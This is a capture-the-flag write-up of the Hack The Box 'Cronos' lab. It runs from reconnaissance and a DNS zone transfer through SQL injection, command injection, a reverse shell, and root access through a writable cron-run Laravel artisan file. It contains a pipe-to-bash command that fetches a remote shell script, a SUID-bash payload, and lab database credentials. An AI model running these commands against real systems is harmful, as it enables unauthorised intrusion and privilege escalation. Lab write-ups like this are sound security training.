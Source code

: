 # Cronos

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 5000 10.129.227.211
Starting Nmap 7.93 ( https://nmap.org ) at 2023-05-06 14:42 EDT
Nmap scan report for 10.129.227.211
Host is up (0.0083s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
53/tcp open  domain
80/tcp open  http
```

### DNS

I poked DNS a little bit before going to HTTP, to see if we can find out any hidden domains or something. Based on standard HTB domains, I guessed that it was `cronos.htb` and it worked.

```
$ dig axfr @10.129.227.211 cronos.htb

; <<>> DiG 9.18.8-1-Debian <<>> axfr @10.129.227.211 cronos.htb
; (1 server found)
;; global options: +cmd
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
cronos.htb.             604800  IN      NS      ns1.cronos.htb.
cronos.htb.             604800  IN      A       10.10.10.13
admin.cronos.htb.       604800  IN      A       10.10.10.13
ns1.cronos.htb.         604800  IN      A       10.10.10.13
www.cronos.htb.         604800  IN      A       10.10.10.13
cronos.htb.             604800  IN      SOA     cronos.htb. admin.cronos.htb. 3 604800 86400 2419200 604800
;; Query time: 3 msec
;; SERVER: 10.129.227.211#53(10.129.227.211) (TCP)
;; WHEN: Sat May 06 14:44:15 EDT 2023
;; XFR size: 7 records (messages 1, bytes 203)
```

### Cronos.htb

Port 80 reveals the default Apache2 page:

<figure><img src="../../../.gitbook/assets/image (569).png" alt=""><figcaption></figcaption></figure>

After adding `cronos.htb` to the `/etc/hosts` file, this page changes:

<figure><img src="../../../.gitbook/assets/image (570).png" alt=""><figcaption></figcaption></figure>

Checking the page source reveals this is a Laravel application.

<figure><img src="../../../.gitbook/assets/image (577).png" alt=""><figcaption></figcaption></figure>

### SQLI Login Bypass --> RCE

Earlier, we also found an `admin.cronos.htb` through DNS. When visited, it just shows a login page:

<figure><img src="../../../.gitbook/assets/image (552).png" alt=""><figcaption></figcaption></figure>

This looks vulnerable to some kind of injection. I ran `sqlmap` on the login request and found that it might be vulnerable to time-based SQL injection. That also means we can bypass this login page by doing basic injection. When we login, we see that it is a really basic application:

<figure><img src="../../../.gitbook/assets/image (594).png" alt=""><figcaption></figcaption></figure>

This is obviously vulnerable to command injection, which we can find quite easily:

<figure><img src="../../../.gitbook/assets/image (597).png" alt=""><figcaption></figcaption></figure>

We can then get a reverse shell using `curl 10.10.14.13/shell.sh|bash`.&#x20;

<figure><img src="../../../.gitbook/assets/image (613).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### MySQL Creds

We can find a `config.php` file containing some credentials in the directory that we spawn in.

```php
www-data@cronos:/var/www/admin$ ls
config.php  index.php  logout.php  session.php  welcome.php
www-data@cronos:/var/www/admin$ cat config.php 
<?php
   define('DB_SERVER', 'localhost');
   define('DB_USERNAME', 'admin');
   define('DB_PASSWORD', 'kEjdbRigfBHUREiNSDs');
   define('DB_DATABASE', 'admin');
   $db = mysqli_connect(DB_SERVER,DB_USERNAME,DB_PASSWORD,DB_DATABASE);
?>
```

We can keep this for now since we don't know if it'll come into play later. There's one user present in this machine:

```
www-data@cronos:/home$ ls -la
total 12
drwxr-xr-x  3 root   root   4096 May 10  2022 .
drwxr-xr-x 23 root   root   4096 May 10  2022 ..
drwxr-xr-x  4 noulis noulis 4096 May 10  2022 noulis
```

We can easily grab the user flag from this.&#x20;

### Laravel Cronjob

Running LinPEAS reveals this:

<figure><img src="../../../.gitbook/assets/image (593).png" alt=""><figcaption></figcaption></figure>

The `root` user was running a PHP file called `artisan` that we had write access to. So we just need to append some commands to the top. We can edit it to include this line:

```php
exec("chmod u+s /bin/bash");
```

Wait for a little bit, and the script should execute. We can then easily get a `root` shell.&#x20;

<figure><img src="../../../.gitbook/assets/image (605).png" alt=""><figcaption></figcaption></figure>
